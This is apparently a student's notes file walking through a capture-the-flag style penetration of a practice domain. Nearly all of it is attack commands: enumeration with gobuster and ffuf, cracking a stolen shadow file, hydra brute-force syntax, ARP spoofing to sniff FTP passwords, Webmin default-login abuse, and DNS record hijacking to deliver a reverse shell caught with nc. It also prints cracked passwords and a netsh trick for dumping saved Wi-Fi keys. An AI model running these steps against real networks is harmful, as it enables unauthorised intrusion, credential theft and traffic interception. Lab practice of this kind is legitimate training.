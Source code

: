 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. hydra vnc syntax: hydra -s 5900 –P /usr/share/wordlists/rockyou.txt 192.168.0.6 vnc
11. ssh to admin with the found password fails
12. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
13. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
14. sudo dig axfr @192.168.2.3
15. curl http://192.168.2.3:10000
16. wget https://c4705d283d7e:10000 --no-check-certificate
17. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
18. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
19. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
20. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
21. we found username and password! ftp_yolo  CyberSec@12 
22. ftp ftp.yolo.co.il # and put the details of the user.
23. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

##############################################################################################################																		more pentest stuff with nmap:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 
########################################################################################################
															usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`
2. find process pid and name of service using it:			  sudo ss -lptn 'sport = :8001'
3. stop the service: sudo systemctl stop inetd.service


1. get access points list windwos: Netsh wlan show profile
2. get the access point password: Netsh wlan show profile name ="tp link"  key=clear

#########################################################################################################





